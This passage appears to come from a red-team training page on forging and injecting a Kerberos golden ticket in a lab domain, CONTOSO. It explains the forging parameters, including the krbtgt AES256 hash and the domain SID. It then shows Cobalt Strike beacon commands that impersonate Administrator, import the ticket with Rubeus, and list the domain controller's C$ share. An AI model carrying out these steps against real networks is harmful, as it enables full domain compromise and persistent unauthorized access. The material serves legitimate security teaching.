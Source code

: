 ```powershell

[*] base64(ticket.kirbi):

      doIFg[...snip...]uQ09N
```

Where:

- `/aes256` is the AES256 hash for the krbtgt account.
    
- `/user` is the username to impersonate.
    
- `/domain` is the current domain.
    
- `/sid` is the current domain's SID.

When a golden ticket is injected and a service accessed, Windows will use the injected TGT to obtain the necessary service tickets using the typical TGS-REQ/TGS-REP process.

```powershell
beacon> make_token CONTOSO\Administrator FakePass
[+] Impersonated CONTOSO\Administrator (netonly)

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:doIFg[...snip...]uQ09N

[*] Action: Import Ticket
[+] Ticket successfully imported!

beacon> run klist

Current LogonId is 0:0x1b4e2f1

Cached Tickets: (1)

#0>	Client: Administrator @ CONTOSO.COM
	Server: krbtgt/CONTOSO.COM @ CONTOSO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent 
	Start Time: 3/4/2025 15:49:53 (local)
	End Time:   3/5/2025 1:49:53 (local)
	Renew Time: 3/11/2025 15:49:53 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 

beacon> ls \\lon-dc-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/24/2025 13:33:39   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     05/08/2021 09:20:24   PerfLogs
          dir     03/04/2025 13:17:37   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     03/04/2025 13:17:19   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/29/2025 10:42:20   System Volume Information
          dir     01/24/2025 13:33:21   Users
          dir     01/24/2025 13:49:56   Windows
 12kb     fil     03/04/2025 10:35:36   DumpStack.log.tmp
 1gb      fil     03/04/2025 10:35:36   pagefile.sys
 
beacon> run klist

```